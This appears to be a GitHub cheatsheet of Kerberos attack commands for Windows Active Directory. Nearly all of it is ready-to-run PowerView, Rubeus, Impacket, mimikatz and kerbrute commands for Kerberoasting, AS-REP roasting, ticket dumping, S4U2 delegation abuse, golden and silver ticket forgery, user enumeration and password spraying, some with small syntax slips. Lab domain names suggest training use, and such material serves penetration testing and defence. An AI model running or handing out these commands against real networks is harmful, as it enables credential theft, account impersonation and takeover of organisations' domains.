 ## Kerberos Attacks cheatsheet.

#### This is a document of various Linux and Windows commands an attacker can utilize to enumerate and / or attack a target via Kerberos.

- The most common tools used will be [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) a powershell script for Windows AD enumeration. [Rubeus](https://github.com/GhostPack/Rubeus), a Windows PE used to enumerate and attack Kerberos on a Windows machine. [Impacket](https://github.com/SecureAuthCorp/impacket), various python scripts to enumerate and attack low level processes such as kerberos. 

1. Get Kerberoastable accounts & hashes
	PS C:\> Import-Module .\PowerView.ps1
	PS C:\> Invoke-Kerberoast

2. Get Kerberoastable accounts & hashes on Linux

	> $ GetUserSPNs.py "domain name"/"username"
	> $ impacket-GetUserSPNs "scrambled.htb"/"kristin"

3. Get AS-Rep roastable accounts & hashes on Windows.

	PS C:\> Import-Module .\PowerView.ps1
	PS C:\> Get-DomainUser -UACFilter DONT_REQ_PREAUTH

4. **Impacket** | Get AS-Rep roastable accounts & hashes on Linux. 

	> $ GetNPUsers.py 'inlanefreight.local'/'random user'
	> $ impacket-GetNPUsers '<TARGET DOMAIN>'/'USER ACCT'

5. **Windows Rubeus** | Monitor TGT copies in TGS every 5 secondes (Unconstrained Delegation)

	PS C:\> Rubeus.exe monitor /interval:5


6. **Windows Rubeus** | Get a TGS using a TGT

	PS C:\> Rubeus.exe asktgs /ticket:<b64 ticket> /service:<SPN> /ptt 


7. **Windows Rubeus** | Renew a TGT and pass it in memory

	PS C:\> Rubeus.exe renew /ticket:<b64 ticket> /ptt


8. **Windows PowerView** | Get service accounts with constrained delegation on Windows

	PS C:\> Import-Module .\PowerView.ps1 
	PS C:\> Get-DomainComputer -TrustedToAuth 


9. **Windows Rubeus** | Perform a S4U2* attack on Windows 

	PS C:\> Rubeus.exe s4u /impersonateuser:<User> /msdsspn<SPN> /altservice:<SRV> /user:<USR> /rc4:<NT Hash> /ptt


10. **Linux Impacket** | Get service aaccounts with delegation on Linux 

	$ findDelegation.py 'target domain'/'user'
	
	$ impacket-findDelegation 'target domain'/'user'


11. **Linux Impacket** | Perfrom a S4U2* attack on Linux 

	$ getST.py -spn <SPN> -hashes :<NT Hash> 'domain'/'user' -impersonate <user> 
	
	$ impacket-getST.py -spn <SPN> -hashes :<NT Hash> 'domain'/'user' -impersonate <user> 


12. **Windows mimikatz** | Forge a golden ticket on Windows 

	mimikatz # kerberos::golden /domain:<domain> /user:<user> /sid:<Domain SID> /rc4:<krbtgt NT hash> /ptt 


13. **Linux Impacket** | Forge a golden ticket on Linux 

	$ ticketer.py -nthash <krbtgt NT hash> -domain-sid :<Domain SID> -domain <domain> <user>


14. **Windows mimikatz** | Forge a silver ticket on Windows 

	mimikatz # kerberos::golden /domain:<target domain> /user:<user> /sid:<Domain SID> /rc4: <Service Account NT hash> /target:<target service account> /service:<service> /ptt 


15. **Linux Impacket** | Forge a silver ticket on Linux 

	$ ticketer.py -nthash <Service account NT hash> -domain-sid <Domain SID> -domain <domain> -spn <SPN> <User> 


16. **Windows Rubeus** | Dumps TGT in memory 

	PS C:\> Rubeus.exe dump /luid:0x89275d /service:krbtgt 


17. **Linux Kerbrute** | Enumerate user accounts via Kerberos 

	$ kerbrute userenum <username-list.txt> --dc <FQDN> -d <target domain> 


18. **Linux Kerbrute** | Password spraying via TGT request 

	$ kerbrute passwordspray <username-list.txt> <password to spray> --dc dc01.scrambled.htb -d scrambled.htb 

